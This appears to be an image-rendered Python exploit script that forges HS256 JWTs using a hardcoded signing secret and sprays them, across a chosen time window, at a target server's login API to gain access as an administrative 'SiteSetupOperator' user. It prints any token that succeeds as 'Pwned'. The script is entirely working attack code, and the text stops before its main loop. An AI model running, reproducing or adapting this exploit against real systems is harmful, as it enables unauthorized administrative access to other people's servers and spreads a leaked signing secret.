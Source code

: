```
import jwt
import time
import warnings
import requests
import argparse
from concurrent.futures import ThreadPoolExecutor
import signal
import sys

warnings.filterwarnings("ignore")

jwt_secret = "o+m4iqAKlqR7eURppDGi16WEExMD/fkjI15nVPOHSXI="
counter = 0
def exploit_token(token):
    global counter
    url = f"{args.target.rstrip('/')}/api/v0/Login/GetInitData"
    headers = {"Authorization": f"Bearer {token}"}
    try:
        res = requests.get(url, verify=False, headers=headers)
        if(res.status_code == 200):
            print(f"(+) Pwned Token: {token}, Status code: {res.status_code}\n(+) Response: {res.text}")
            counter = 21
            sys.exit(0)
        if(args.debug or counter == 10):
            print(f"(INFO) Spraying JWT Tokens: {res.status_code}")
            counter = 0
    except requests.exceptions.RequestException as e:
        if args.debug:
            print(f"(INFO) Request failed: {e}")

    counter += 1

def generate_token_and_exploit(current_time):
    claims = {
        "unique_name": args.username,
        "role": "SiteSetupOperator",
        "nbf": current_time,
        "exp": current_time + 900,
        "iat": current_time
    }
    encoded_jwt = jwt.encode(claims, jwt_secret, algorithm="HS256")
    exploit_token(encoded_jwt)

def signal_handler(sig, frame):
    print('Interrupted! Shutting down gracefully...')
    executor.shutdown(wait=False)
    sys.exit(0)

if __name__ == "__main__":
    print(banner)
    parser = argparse.ArgumentParser(description="Generate and exploit JWT tokens.")
    parser.add_argument("--start_time", type=int, help="Start time in epoch format", required=True)
    parser.add_argument("--end_time", type=int, help="End time in epoch format", required=True)
    parser.add_argument("--username", type=str, help="administrator@evilcorp.local or evilcorp\\administrator", required=True)
    parser.add_argument("--target", type=str, help="target url, e.g. https://192.168.253.180:9898/", required=True)
    parser.add_argument("--debug", action="store_true", help="Enable debug mode")
    args = parser.parse_args()

    start_time = args.start_time
    end_time = args.end_time
```